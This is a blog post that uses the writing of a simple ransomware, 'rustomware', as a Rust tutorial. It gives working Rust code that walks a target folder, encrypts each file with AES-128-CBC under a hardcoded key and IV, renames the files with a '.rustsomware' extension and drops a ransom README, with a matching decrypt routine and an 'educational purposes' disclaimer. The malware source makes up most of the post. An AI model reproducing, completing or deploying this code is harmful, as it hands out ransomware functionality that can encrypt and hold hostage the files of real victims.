 ```yaml
---
layout: post
title: Rust 101 - Let's write a Rustomware
tags: [rust, windows, linux, malware-dev]
---
```


[![star](https://img.shields.io/badge/star-100000?style=for-the-badge&logo=Github&logoColor=white)](https://github.com/Idov31/rustomware) [![fork](https://img.shields.io/badge/fork-100000?style=for-the-badge&logo=Github&logoColor=white)](https://github.com/Idov31/rustomware/fork) [![follow](https://img.shields.io/badge/follow-100000?style=for-the-badge&logo=Github&logoColor=white)](https://github.com/Idov31)

## Introduction

When I first heard about Rust, my first reaction was "Why?". The language looked to me as a "wannabe" to C and I didn't understand why it is so popular. I started to read more and more about this language and began to like it. To challenge myself, I decided to write [rustomware](https://github.com/idov31/rustomware) in Rust. Later on, I ran into trickster0's amazing repository [OffensiveRust](https://github.com/trickster0/OffensiveRust) and that gave me more motivation to learn Rust. Nowadays I'm creating a unique C2 framework written (mostly) in Rust. If you are familiar with Rust, you can skip to Part 2 below.

The whole code for this blog post is available on my [GitHub](https://github.com/idov31/rustomware) :).

## Rust's capabilities

The reason that I think that Rust is an awesome language is that it's a powerful compiler, has memory safety, easy syntax and great interaction with the OS. Rust's compiler takes care to alert for anything that can be problematic - A thing that can be annoying but in the end, it helps the developer to create safer programs. On the other hand, the compiler also takes care of annoying tasks that are required when programming in C like freeing memory, closing files, etc. Rust is also a cross-platform language, so it can be used on any platform and be executed differently depending on the OS.

## Part 1 - Hello Rust

Enough talking and let's start to code! The first thing we want to do is create our program, it can be done with this simple command:

```sh
cargo new rustomware
cd rustomware
```

In the rustsomware directory, we will have these files:

``` sh
rustomware
│   .gitignore
│   Cargo.toml    
│
└───src
│   │   main.rs
│   
└───.git
    │   ...
```

In the main.rs file, we will write our code, and in Cargo.toml we will include our modules.
To build our new program, we will use the following command:

``` sh
cargo build
```

Our executable will be in the target directory (because we didn't use the release flag so it will be in debugging) and will be called rustomware.exe. You'll notice that there are a few new files and directories - the Cargo.lock file, and many files under the target directory. I won't elaborate about them here but in general the Cargo.lock file contains the dependencies of the project in a format that can be used by Cargo to build the project. **THERE IS NO NEED TO EDIT THOSE FILES**. In the target directory, we will have the modules themselves, the executable and the PDB file. After we learned a bit about Rust, we can dive into coding our ransomware.

## Part 2 - Iterating the target folder

Like any good ransomware, we will need to have these functionalities:

- Encrypting files.
- Decrypting files.
- Dropping a README file.
- Adding our extension to the files.

For that, we will need to use crates (modules) to help us out. First things first, we need to be able to get a list of all the files in the target directory from the argv. To do that, we can use the std library and the fs module. To use a module all we need to do is to import it:

``` rust
use std::{
    env,
    fs
};

fn main() {
    let args: Vec<_> = env::args().collect();
    
    if args.len() < 2 {
        println!("Not enough arguments! Usage: rustsomware <encrypt|decrypt> <folder>");
        return;
    }

    let entries = fs::read_dir(args[2].clone()).unwrap();

    for raw_entry in entries {
        let entry = raw_entry.unwrap();

        if entry.file_type().unwrap().is_file() {
            println!("File Name: {}", entry.path().display())
        }
    }
}
```

Now we have a program that finds files in a folder. Notice that we used the unwrap() method to get the result, it is required because Rust functions mostly send as a result type that can be either Ok or Err. We also needed to clone the string because Rust needs to clone objects or create a safe borrow (It is not recommended to borrow objects, but it is possible and can be useful in some cases).

## Part 3 - Encrypting / Decrypting the files

To encrypt the files, we will the [AES](https://en.wikipedia.com/wiki/Advanced_Encryption_Standard) cipher with a hardcoded key and IV. All that is left for us to do is to create a function that is responsible to encrypt the file and change its extension to .rustsomware. First things first, to be able to do encryption/decryption methods we will need to have a crate to help with that. Since the libaes crate isn't a default crate, we need to import it to our project and this can be done by modifying the Cargo.toml file by adding:

```toml
[Dependencies]

libaes = "0.6.2"
```

Now, we can create a function that can encrypt and decrypt. For the sake of practice, we will use a hardcoded key and IV but this is **NOT** recommended at all.

``` rust
fn encrypt_decrypt(file_name: &str, action: &str) -> bool {
    let key = b"fTjWmZq4t7w!z%C*";
    let iv = b"+MbQeThWmZq4t6w9";
    let cipher = Cipher::new_128(key);

    match action {
        "encrypt" => {
            println!("[*] Encrypting {}", file_name);
            let encrypted = cipher.cbc_encrypt(iv, &fs::read(file_name).unwrap());
            fs::write(file_name, encrypted).unwrap();
            let new_filename = format!("{}.rustsomware", file_name);
            fs::rename(file_name, new_filename).unwrap();
        }

        "decrypt" => {
            println!("[*] Decrypting {}", file_name);
            let decrypted = cipher.cbc_decrypt(iv, &fs::read(file_name).unwrap());
            fs::write(file_name, decrypted).unwrap();
            let new_filename = file_name.replace(".rustsomware", "");
            fs::rename(file_name, new_filename).unwrap();
        }

        _ => { 
            println!("[-] Invalid action!");
            return false 
        }
    }

    return true;
}
```

You can use the key and IV from above or [generate them yourself](https://www.allkeysgenerator.com/Random/Security-Encryption-Key-Generator.aspx). The code above is a simple example of how to use AES128 with Rust, pretty simple right?

As you saw, Rust has a simple interface with the file system that allows you to rename and do io operations easily. Because this is a simple example the function returns a boolean type but it is recommended to return the error to the calling function for further handling.

## Part 4 - Adding pretty prints and README file

Just like any good ransomware we need to do a simple thing and add a README file. For the sake of learning, we will learn about including files statically to our binary. Create a readme.txt file with your ransom message in it (it is recommended to create it in a separate directory inside your project directory but you can also put it in the src directory). To add the file, all we need to do is to use the include_str! macro (everything that ends with ! in rust is a macro) and save it to a variable.

```rust
...

// Dropping the README.txt file.
let ransom_message = include_str!("../res/README.txt");
let readme_path = format!("{}/README_Rustsomware.txt", args[2].clone());
fs::write(readme_path, ransom_message).unwrap();
```

As you saw, we can just save it to a file and if we want to do any changes just change the README file and recompile, no code editing is required.

Result:
<img src="../assets/img/rust101-rustsomware/encrypted_files.png" />

## Conclusion

In this blog post, you got a taste of Rust's power and had fun with it by creating a simple program. I think that in the future we will see more and more infosec tools that are written in Rust. The whole code is available on my [GitHub](https://github.com/idov31), for any questions feel free to ask me on [Twitter](https://twitter.com/idov31).

## Disclaimer

I'm not responsible for any damage that may occur to your computer. This article is just for educational purposes and is not intended to be used in any other way.
